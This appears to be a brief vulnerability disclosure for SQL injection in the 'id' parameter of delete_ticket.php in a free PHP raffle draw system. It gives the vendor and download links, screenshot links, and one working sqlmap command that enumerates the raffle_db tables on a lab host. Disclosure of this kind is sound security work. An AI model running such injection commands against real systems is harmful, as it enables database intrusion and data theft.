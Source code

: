 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/213211108-27f9b4f6-c194-488b-95eb-3b4c25b6ae79.png)
sqlmap.py -u "http://192.168.249.88/php-js-raffle-draw/delete_ticket.php" --data "id=1" -D raffle_db --tables
![image](https://user-images.githubusercontent.com/30823782/213211217-67cbdfc1-9a98-47f9-b9dd-f52efa9a83a8.png)
